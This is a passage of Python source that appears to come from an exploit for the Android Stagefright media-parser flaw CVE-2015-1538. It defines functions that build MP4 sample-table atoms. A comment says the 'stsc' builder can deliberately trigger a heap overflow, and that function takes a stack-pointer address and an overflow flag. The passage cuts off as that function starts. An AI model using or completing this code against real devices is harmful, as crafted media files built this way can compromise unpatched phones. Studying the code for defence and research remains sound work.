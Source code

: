 
#
# Make an 'stco' atom - Sample Table Chunk Offets
#
def make_stco(extra=''):
    ret =  struct.pack('>L', 0) # version
    ret += struct.pack('>L', 0) # mNumChunkOffsets
    return make_chunk('stco', ret+extra)

#
# Make an 'stsz' atom - Sample Table Size
#
def make_stsz(extra=''):
    ret =  struct.pack('>L', 0) # version
    ret += struct.pack('>L', 0) # mDefaultSampleSize
    ret += struct.pack('>L', 0) # mNumSampleSizes
    return make_chunk('stsz', ret+extra)

#
# Make an 'stts' atom - Sample Table Time-to-Sample
#
def make_stts():
    ret =  struct.pack('>L', 0) # version
    ret += struct.pack('>L', 0) # mTimeToSampleCount
    return make_chunk('stts', ret)


#
# This creates a single Sample Table Sample-to-Chunk entry
#
def make_stsc_entry(start, per, desc):
    ret = ''
    ret += struct.pack('>L', start + 1)
    ret += struct.pack('>L', per)
    ret += struct.pack('>L', desc)
    return ret

#
# Make an 'stsc' chunk - Sample Table Sample-to-Chunk
#
# If the caller desires, we will attempt to trigger (CVE-2015-1538 #1) and
# cause a heap overflow.
#
def make_stsc(num_alloc, num_write, sp_addr=0x42424242, do_overflow = False):
    ret =  struct.pack('>L', 0) # version/flags
